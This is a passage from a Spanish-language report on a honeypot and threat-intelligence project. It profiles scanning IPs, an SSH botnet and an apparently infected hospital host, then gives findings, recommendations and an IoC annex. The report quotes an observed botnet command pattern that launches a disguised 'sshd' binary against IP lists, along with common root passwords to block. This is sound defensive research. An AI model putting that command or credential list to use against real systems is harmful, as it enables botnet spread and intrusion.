| `158.51.96.38` | 🇺🇸 USA | NetInformatik Inc. / ip-xfer.net | **100/100** | malicious | 4,307 | 924 | Botnet SSH spreader |

*Fuentes: AbuseIPDB API v2 (2026-03-06) · GreyNoise Community API (2026-03-06)*

### 9.3 Perfil Detallado — scan.visionheight.com

Las IPs `3.130.168.2`, `3.129.187.38` y `18.218.118.203` conforman una
infraestructura de scanning organizado con las siguientes características:

**Infraestructura compartida:**

- Hostname DNS común: `scan.visionheight.com`
- ISP: Amazon Technologies Inc. (ASN 16509, región us-east-2 Ohio)
- User-Agent HTTP: `visionheight.com/scan Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) Chrome/126.0.0.0 Safari/537.36`
- Este User-Agent fue capturado directamente en los logs de Cowrie SSH,
confirmando interacción activa con el honeypot

**División de tareas observada:**


| IP | Especialización | Servicios objetivo |
| :-- | :-- | :-- |
| `3.130.168.2` | Web \& IoT | HTTP/80, FTP/21, cámaras IP, Jellyfin, Nginx |
| `3.129.187.38` | Mail \& SSH | IMAP/993, SMTP/465, SNMP/161, SSH/22, Postfix |
| `18.218.118.203` | Databases \& Infra | Redis/6379, Cassandra/9042, Cockpit/9090, TELNET/23, RabbitMQ |

**Alcance global confirmado:** Las tres IPs fueron reportadas simultáneamente
desde US, DE, FR, JP, ZA, PL, SG, TR — operación activa a escala planetaria.
ThreatBook Intelligence clasifica a `3.130.168.2` como "Zombie/Scanner".

> **Figura 9.1** — 
> *Reporte AbuseIPDB de la IP 18.218.118.203 mostrando score 100/100,
> hostname scan.visionheight.com y detalle de categorías de abuso.*

> **Figura 9.2** — 
> *Reporte GreyNoise Community mostrando clasificación "malicious",
> noise=true, riot=false para la IP 3.130.168.2.*

### 9.4 Perfil Detallado — 201.187.98.150 (Chile)

Esta IP representa el caso de mayor interés desde perspectiva de
ciberseguridad defensiva:


| Campo | Valor |
| :-- | :-- |
| **IP** | 201.187.98.150 |
| **ISP** | HOSPITAL BASE VALDIVIA |
| **Tipo de conexión** | Fixed Line ISP |
| **Dominio** | gtdcompany.com (GTD Internet S.A.) |
| **AbuseIPDB Score** | **3/100** |
| **GreyNoise Classification** | **suspicious** (no malicious) |
| **Total reportes previos** | 4 |
| **Usuarios distintos que reportaron** | 1 (misma fuente suiza) |
| **Último reporte** | 2026-03-03T08:23:35 UTC |
| **Reportes históricos** | Ene-2026, Feb-2026, Mar-2026 (patrón sostenido) |

El score de 3/100 en AbuseIPDB y la clasificación "suspicious" en
GreyNoise (en lugar de "malicious") son inconsistentes con un atacante
intencional. Todos los reportes previos documentan el mismo comportamiento:
scanning de honeypots en el puerto 445 (SMB), con el mismo origen,
registrado desde enero de 2026 — indicando una infección activa y
persistente en infraestructura del Hospital Base Valdivia.

El patrón — scanning masivo y continuo de SMB TCP/445 generado por un
host de institución pública de salud — es coherente con malware de
auto-propagación tipo **EternalBlue** (MS17-010), **WannaCry** o variantes
activas en 2026. Este hallazgo tiene implicaciones de seguridad pública
que trascienden el alcance del presente proyecto.

> **Figura 9.3** — 
> *Reporte AbuseIPDB de la IP 201.187.98.150 mostrando score 3/100,
> ISP Hospital Base Valdivia y los 3 reportes previos de SMB scanning.*

### 9.5 Perfil Detallado — 158.51.96.38 (Botnet SSH)

| Campo | Valor |
| :-- | :-- |
| **IP** | 158.51.96.38 |
| **ISP** | NetInformatik Inc. |
| **Hostname** | unknown.ip-xfer.net |
| **AbuseIPDB Score** | **100/100** |
| **GreyNoise Classification** | **malicious** |
| **Total reportes globales** | **4,307** |
| **Usuarios distintos que reportaron** | **924** (el mayor de las 5 IPs) |
| **Último reporte** | 2026-03-06T05:15:42 UTC |
| **Primera actividad registrada** | 2026-02-19 |
| **Aparece en** | CrowdSec Top Blocklist |

Los 924 usuarios reportantes en múltiples países (GB, US, IN, NL, IT, FI,
CA, DE, FR) y los comentarios de reporte — todos documentando SSH brute
force contra usuario `root` — confirman que esta IP es un nodo activo de
botnet en operación continua. La presencia en la CrowdSec Top Blocklist
indica que está entre las IPs más bloqueadas globalmente en la fecha del
análisis.

---

## 10. Hallazgos Críticos

### 10.1 Hallazgo \#1 — Infraestructura de Scanning Coordinado (visionheight.com)

**Severidad:**  Alta
**Confianza:**  Confirmada (múltiples fuentes)

Tres instancias AWS bajo el hostname `scan.visionheight.com` operaron de
forma coordinada con especialización funcional por protocolo, atacando los
tres honeypots del proyecto simultáneamente. La correlación de su
User-Agent en los logs de Cowrie confirma que estas IPs no son escáneres
pasivos de investigación sino actores activos de reconocimiento ofensivo.

**Indicadores de Compromiso (IoC):**

```
IP: 3.130.168.2     | ASN16509 | scan.visionheight.com
IP: 3.129.187.38    | ASN16509 | scan.visionheight.com
IP: 18.218.118.203  | ASN16509 | scan.visionheight.com
UA: visionheight.com/scan Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) ...
```

**Acción recomendada para SOC:** Bloquear las tres IPs y el bloque CIDR
`3.128.0.0/9` y `18.216.0.0/14` en perímetro, o aplicar regla de
rate-limiting agresiva para conexiones provenientes de ASN16509 hacia
puertos de administración.

---

### 10.2 Hallazgo \#2 — Máquina Hospitalaria Comprometida con Malware SMB

**Severidad:**  Alta (implicación de seguridad pública)
**Confianza:**  Confirmada (AbuseIPDB + GreyNoise + comportamiento)

La IP `201.187.98.150` pertenece a la red del Hospital Base Valdivia
(Chile) y lleva operando como nodo de propagación SMB desde al menos
enero de 2026. El patrón de 64,095 eventos en ~24h apunta a ejecución
automatizada sin intervención humana.

Este hallazgo demuestra que infraestructura crítica de salud pública puede
estar comprometida con malware activo sin que la institución lo detecte, y
que los honeypots son una herramienta eficaz para identificar estas
situaciones pasivamente.

**Implicación operativa:** Los 64,338 eventos totales de Dionaea deben
interpretarse con cautela en el contexto de este proyecto — el 99.4%
corresponde a una sola IP comprometida (no intencional), lo que refuerza
la importancia del análisis contextual sobre el conteo volumétrico bruto.

---

### 10.3 Hallazgo \#3 — Propagación Activa de Botnet SSH Capturada en Tiempo Real

**Severidad:** Alta
**Confianza:**  Confirmada (sesiones Cowrie con comandos completos)

La captura de las sesiones de `158.51.96.38` y las IPs chinas con el
binario `sshd` malicioso propagándose a 50+ IPs simultáneamente representa
el hallazgo de mayor valor técnico del proyecto. No se trata de un intento
de ataque sino de la **propagación activa en curso de una botnet**, capturada
en el momento exacto de ejecución.

El uso de directorios de nombre numérico aleatorio (`.7178163538414610265/`)
como técnica de evasión, combinado con el camuflaje del binario como `sshd`,
son indicadores de un actor con conocimiento técnico suficiente para evadir
detecciones básicas por nombre de archivo.

**Indicadores de Compromiso (IoC):**

```
IP:         158.51.96.38  | NetInformatik Inc. | unknown.ip-xfer.net
IP:         123.58.212.100 | China
Patrón:     chmod +x ./.<ID_ALEATORIO>/sshd; nohup ./.<ID>/sshd [50 IPs] &
Binario:    sshd (nombre legítimo, comportamiento malicioso)
Directorio: .<número aleatorio de 19 dígitos>/
```


---

### 10.4 Hallazgo \#4 — Diccionarios de Ataque Actualizados con Año en Curso

**Severidad:** Media
**Confianza:** Confirmada (logs Cowrie)

La contraseña `P@ssw0rd2026` fue intentada 10 veces en Cowrie, confirmando
que los diccionarios de ataque automatizados incorporan el año calendario
actual. Esto invalida la práctica común de "fortalecer" contraseñas
simplemente añadiendo el año vigente al final o al inicio.

---

## 11. Conclusiones

### 11.1 Validación de Objetivos

| Objetivo                     | Meta                     | Resultado                   | Estado       |
| :--------------------------- | :----------------------- | :-------------------------- | :----------- |
| OE1: Despliegue de honeypots | 3 honeypots operativos   | 3/3 operativos 30 días      | Cumplido     |
| OE2: Centralización de logs  | Pipeline Wazuh funcional | 137,657 eventos indexados   | Cumplido     |
| OE3: Correlación TI          | Alertas TI automáticas   | 85 alertas generadas        | Cumplido     |
| OE4: Técnicas MITRE          | ≥ 5 técnicas confirmadas | 6 confirmadas + 4 inferidas | **Superado** |
| OE5: Documentación           | Informe técnico completo | Presente documento          | Cumplido     |
| Costo operativo              | ≤ USD 30 / 7 días        | ~USD 106 / 30 días          | No cumplido  |

### 11.2 Conclusiones Técnicas

**C1 — Viabilidad del modelo cloud-native de bajo costo:** El proyecto demostró
que es posible operar una HoneyNet funcional con capacidades de análisis TI
en tiempo real por menos de USD 22 por semana, accesible para instituciones
académicas, investigadores independientes y PyMEs.

**C2 — El tráfico malicioso en internet es masivo e inmediato:** En menos de
72 horas desde el despliegue, los tres honeypots recibían tráfico malicioso
activo. Internet está en un estado permanente de escaneo masivo automatizado
que afecta a cualquier dirección IP pública expuesta, sin importar su tamaño
o relevancia percibida.

**C3 — Los atacantes priorizan credenciales débiles y servicios sin autenticar:**
El 99.97% de los intentos SSH apuntaron al usuario `root` con contraseñas
de diccionario básico. Ningún atacante empleó técnicas avanzadas de evasión
a nivel de protocolo SSH — los ataques son masivos, automatizados y oportunistas.

**C4 — La infraestructura cloud legítima es usada activamente para ataques:**
Tres IPs de Amazon Web Services bajo `scan.visionheight.com` y la IP
`158.51.96.38` (NetInformatik) con score AbuseIPDB 100/100 demuestran que
los actores maliciosos emplean proveedores cloud legítimos para sus operaciones,
dificultando el bloqueo por ASN sin causar falsos positivos.

**C5 — Los honeypots capturan víctimas, no solo atacantes:** El caso del Hospital
Base Valdivia evidencia que los sistemas de captura pasiva pueden identificar
infraestructura comprometida de terceros, lo cual tiene valor para la respuesta
ante incidentes y la seguridad de infraestructura crítica.

**C6 — Wazuh es una plataforma SIEM viable para entornos de honeypot:** La
integración de Wazuh con los tres honeypots, la correlación automática con
feeds TI y la visualización en tiempo real funcionaron sin interrupciones
durante todo el período de operación, validando la arquitectura propuesta.

---

## 12. Recomendaciones

### 12.1 Recomendaciones para Equipos Blue Team

**R1 — Implementar bloqueo preventivo de IPs con score AbuseIPDB ≥ 80:**
Las IPs con score alto tienen historial documentado de actividad maliciosa.
Integrar AbuseIPDB y GreyNoise en los firewalls perimetrales mediante
actualizaciones automáticas de blocklists reduce la superficie de ataque
efectiva.

**R2 — Deshabilitar autenticación por contraseña en SSH:**
El 100% de los ataques SSH capturados usaron password authentication.
Migrar a autenticación exclusiva por clave pública y deshabilitar
`PasswordAuthentication yes` en `/etc/ssh/sshd_config` elimina
completamente este vector.

**R3 — Monitorear patrones de SMB anómalos en redes internas:**
El comportamiento de `201.187.98.150` — scanning masivo de SMB 445
desde una red hospitalaria — es detectable con reglas Suricata/Snort
simples. Organismos de salud y educación deberían priorizar la
detección de propagación lateral SMB como indicador de infección activa.

**R4 — Alertar sobre binarios con nombre de proceso del sistema en directorios ocultos:**
La técnica de almacenar `sshd` malicioso en `./.<número>/<nombre_legítimo>`
es detectable con reglas YARA o auditd en producción. Cualquier binario
ejecutable en un directorio oculto (`.`) que coincida en nombre con un
proceso del sistema debe generar alerta inmediata.

**R5 — Actualizar diccionarios de prueba de contraseñas en evaluaciones de seguridad:**
Incluir contraseñas con el año en curso (`P@ssw0rd2026`, `Admin2026!`,
`Summer2026`) en las listas de evaluación de políticas de contraseñas.

### 12.2 Recomendaciones para Continuidad del Proyecto

**R6 — Ampliar el período de captura:** 30 días es suficiente para demostrar
el concepto, pero 90 días permitiría identificar patrones de campaña
estacionales y correlacionar con threat intelligence histórica.

**R7 — Añadir captura de binarios en Dionaea:** Habilitar la opción
`store_files = true` en Dionaea para conservar los binarios maliciosos
capturados e integrarlos con VirusTotal API para análisis automático.

**R8 — Implementar notificaciones Telegram para alertas TI:** La integración
del bot de Telegram con las reglas 100578–100580 ya está definida en la
arquitectura del proyecto. Activarla permite respuesta en tiempo real desde
dispositivos móviles.

**R9 — Publicar los IoC como contribución a la comunidad:** Los indicadores
documentados en este informe (IPs, User-Agents, patrones de comando) pueden
publicarse en AlienVault OTX como contribución a la comunidad de TI, añadiendo
valor académico y profesional al proyecto.

---

## 13. Referencias

1. Wazuh Inc. *Wazuh Documentation v4.9*. https://documentation.wazuh.com/current
2. Cowrie Project. *Cowrie SSH/Telnet Honeypot*. https://github.com/cowrie/cowrie
3. Telekom Security. *T-Pot Community Edition*. https://github.com/telekom-security/tpotce
4. The MITRE Corporation. *MITRE ATT\&CK Framework v14*. https://attack.mitre.org
5. AbuseIPDB. *AbuseIPDB API v2 Documentation*. https://docs.abuseipdb.com
6. GreyNoise Intelligence. *GreyNoise Community API*. https://docs.greynoise.io
7. Amazon Web Services. *AWS Acceptable Use Policy*. https://aws.amazon.com/aup
8. National Security Agency (NSA). *Cybersecurity Technical Report: Network Infrastructure Security Guidance*, 2023.
9. CERT/CC. *Vulnerability Note VU\#867968 — EternalBlue (MS17-010)*. Carnegie Mellon University, 2017.
10. OpenSearch Project. *OpenSearch Documentation v2.x*. https://opensearch.org/docs

---

## 14. Anexos

### Anexo A — Infraestructura AWS Desplegada

| Recurso         | ID / Valor                                                |
| :-------------- | :-------------------------------------------------------- |
| VPC ID          | `vpc-01b772a4cca66614f`                                            |
| Región          | us-east-1 (N. Virginia)                                   |
| Cowrie EC2      | `i-0d96a8152d9c004ec` · t3.micro · Ubuntu 22.04 LTS       |
| T-Pot CE EC2    | `i-070eb1a67939cdd25` · m7i-flex.large · Ubuntu 22.04 LTS |
| Dionaea EC2     | `i-0e8c4a42243c5d40a` · t3.micro · Ubuntu 22.04 LTS       |
| Wazuh Stack EC2 | `i-068d997b895a0ed8c` · m7i-flex.large · Ubuntu 22.04 LTS |

### Anexo B — Queries OpenSearch DSL

Los archivos JSON con las 9 queries ejecutadas se encuentran en:

```
configs/queries/json/
├── query-01-conteo-honeypot.json
├── query-02-top20-ips.json
├── query-03-top-15-paises.json
├── query-04-MITRE-por-honeypot.json
├── query-05-credenciales-cowrie.json
├── query-06-timeline-por-dia.json
├── query-07-alertas-ti.json
├── query-08-comandos-cowrie.json
└── query-09-protocolos-dionaea.json
```


### Anexo C — Reportes de Threat Intelligence

Los reportes crudos de AbuseIPDB y GreyNoise para las 5 IPs investigadas
se encuentran en:

```
docs/03-analisis/evidencias-ti
├── abuseipdb-summary-158.51.96.38.json
├── abuseipdb-summary-18.218.118.203.json
├── abuseipdb-summary-201.187.98.150.json
├── abuseipdb-summary-3.129.187.38.json
├── abuseipdb-summary-3.130.168.2.json
├── reporte-greynoise-158.51.96.38-USA.json
├── reporte-greynoise-18.218.118.203-USA.json
├── reporte-greynoise-201.187.98.150-CHILE.json
├── reporte-greynoise-3.129.187.38-USA.json
└── reporte-greynoise-3.130.168.2-USA.json
```

### Anexo D — Indicadores de Compromiso (IoC) Consolidados

```yaml
# IoC List — Cloud HoneyNet 2026 — TLP:WHITE

ips_malicious_confirmed:
  - ip: "3.130.168.2"
    hostname: "scan.visionheight.com"
    isp: "Amazon Technologies Inc."
    asn: "AS16509"
    abuse_score: 100
    greynoise: "malicious"
    activity: "multi-protocol port scanner"

  - ip: "3.129.187.38"
    hostname: "scan.visionheight.com"
    isp: "Amazon Technologies Inc."
    asn: "AS16509"
    abuse_score: 100
    greynoise: "malicious"
    activity: "mail server / SSH scanner"

  - ip: "18.218.118.203"
    hostname: "scan.visionheight.com"
    isp: "Amazon Technologies Inc."
    asn: "AS16509"
    abuse_score: 100
    greynoise: "malicious"
    activity: "database / middleware scanner"

  - ip: "158.51.96.38"
    hostname: "unknown.ip-xfer.net"
    isp: "NetInformatik Inc."
    abuse_score: 100
    greynoise: "malicious"
    activity: "SSH botnet spreader"

ips_compromised_victim:
  - ip: "201.187.98.150"
    isp: "HOSPITAL BASE VALDIVIA"
    country: "CL"
    abuse_score: 3
    greynoise: "suspicious"
    activity: "SMB mass scanner — probable infected host"
    note: "Victim, not intentional attacker"

user_agents:
  - "visionheight.com/scan Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) Chrome/126.0.0.0 Safari/537.36"

behavioral_patterns:
  - pattern: "chmod +x ./.<19-digit-number>/sshd; nohup ./.<id>/sshd [IP list] &"
    classification: "SSH botnet propagation"
    mitre: ["T1059", "T1543", "T1036.005", "T1570"]

credentials_to_block:
  - "root:admin"
  - "root:password"
  - "root:123"
  - "root:12345"
  - "root:qwerty"
  - "root:P@ssw0rd2026"
```


---

*Documento finalizado el 2026-03-06  ·  Proyecto Cloud HoneyNet \& Automated Threat Intelligence*

*K.B · Lima, Perú*

*Respositorio:* [killex007-pftw](https://github.com/killex007-pftw)
